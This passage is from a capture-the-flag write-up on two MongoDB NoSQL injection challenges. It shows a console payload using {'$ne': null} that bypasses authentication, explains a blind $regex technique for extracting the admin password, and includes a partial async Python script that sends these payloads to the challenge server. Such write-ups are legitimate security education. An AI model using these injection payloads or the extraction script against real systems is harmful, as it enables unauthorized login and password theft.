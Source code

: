 The description hints to a injection on NoSQL queries, most likely MongoDB. The backend has no type validation on user input, so we can inject conditions in the MongoDB queries.

Open the debugger in your browser and set a breakpoint on the `$.ajax` call within `main.js`.

Submit a login request.

Execute this in the console.
```js
loginForm.username = loginForm.password = {"$ne": null};
```

![SQL: `CTF{w41t_y0u_c4n_iNj3cT_nO_sQlI_dB5_2???!??}`](images/no-sql-injection-1.png)

## No SQL Injection 2 (20 points)

> Oh dear you weren't supposed to pass the authentication page. At least *my password* is secure on the *NoSQL database* and you cannot get that! Even though I forgot to hash it...
> 
> *Can you exfiltrate the password for the admin account?*
> 
> The flag is the password, only has *lower and upper case letters* and will start with `CTF`.

This also requires MongoDB injection; Mongo allows for a `$regex` operator in matching, and we can perform a blind injection (observing whether inputs are true or false) in order to retrieve the password character by character.

We first need to retrieve the length of the password. This can be done by matching for `.{n}`, where n is an incrementing number. If n+1 fails to authenticate, then n is the length of the password.

This does require a bit of scripting (asyncio for speed):
```py
import string
import asyncio
import aiohttp


async def main():
    known = "CTF"
    async with aiohttp.ClientSession() as session:

        async def fetch(password, event):
            async with session.post(
                "http://cits4projtg2.cybernemosyne.xyz:1007/api/login",
                json={
                    "username": {"$ne": None},
                    "password": {"$regex": password}
                }
            ) as resp:
                if (await resp.json()).get("url") == "/admin":
                    event.password = password
                    event.set()

        while len(known) < 17:
            tasks = []
            event = asyncio.Event()
            for c in string.ascii_letters:
                tasks.append(
```
